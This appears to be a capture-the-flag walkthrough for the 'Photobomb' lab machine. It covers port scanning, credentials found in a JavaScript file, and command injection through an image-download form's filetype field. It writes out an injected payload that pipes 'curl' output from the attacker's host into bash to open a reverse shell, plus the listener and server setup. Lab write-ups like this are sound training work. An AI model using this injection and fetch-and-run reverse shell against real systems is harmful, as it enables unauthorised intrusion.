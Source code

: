 # Photobomb
## Part 1: Discovery
- ### Scanning
I have scanned the ip address of the machine using nmap
``` sudo nmap -sVC -T4 -p- machine_ip ```<br/>
According to the nmap result there are 2 services serving on port 22 and port 80. <br/>
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://photobomb.htb/
```
- ### Investigating the website
When the website is visited, It is not available. We need to configure our local dns server to make possible to visit the website. <br/>
``` sudo vi /etc/hosts```<br/>
After opening the vi editor, insert: ```machine_ip photobomb.htb```. <br/>
Now the website is visitable.<br/>
It is possible to find ```photobomb.js``` when the source code is inspected.<br/>
go to this URL : ```http://photobomb.htb/photobomb.js``` <br/>
we can see that with this url : ```http://pH0t0:b0Mb!@photobomb.htb/printer``` we can log into the site with credentials. <br/>

### Burpsuite
In this website we can download a bunch of images. We can select resolution and the filetype.<br/>
When we analyze the request made when the download button has clicked, it is visible that image name, filetype and resolution are being sent to the backend. <br/>
```photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg&dimensions=3000x2000``` <br/>
We can use this opening to feed our reverse shell into the sever.<br/>


 ## Part 2 : Exploiting
 - ### Preping a reverse shell
 I wanted to make this website pull a shell script from my ip. For this purpose; <br/>
 - I have opened a netcast listener on port 443. When the shell script has run, listener will catch and makes us traverse the server directories.<br/>
 - We are going to make the website pull shell script from a python http server which is running on port 8080.<br/>
 - For creating a reverse shell code go to : https://www.revshells.com/ , enter your ip and your listeners port. copy the command
 - open terminal
 - execute :  ```echo 'your_shell_command_here' > shell.sh```. We created a shell script. Whenever this file is run, it will exeucte the shell command.
 - Start a python server ```python3 -m http.server 8080```
 - URL encode ```curl your_ip:python_server_port/shell.sh|bash``` This will be fed to the target system to pull our shell script.
 Our Reverse Shell is ready to be pulled. It is time to feed the shell to the target system.
 
 - ### Feeding the shell
 As I mentioned before, the filetype is being sent to the backend. we can make the target computer run a spesific command from here. <br/>
 - First: we paste our url encoded curl command next to the filetype in burpsuite and proceed to download the images: <br/>  ```photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg;curl%20YOURIP%3APYTHONPORT%2Fshell.sh%20%7C%20bash&dimensions=3000x2000``` <br/> Images will not be downloaded and our shell is serving on our listener.
 - You can see at the listener ```connect to [your_ip] from (UNKNOWN) [target_ip] 51488``` We are succesfully penetrated into the target system.
 - search for the flag. It is in a file called user.txt
 
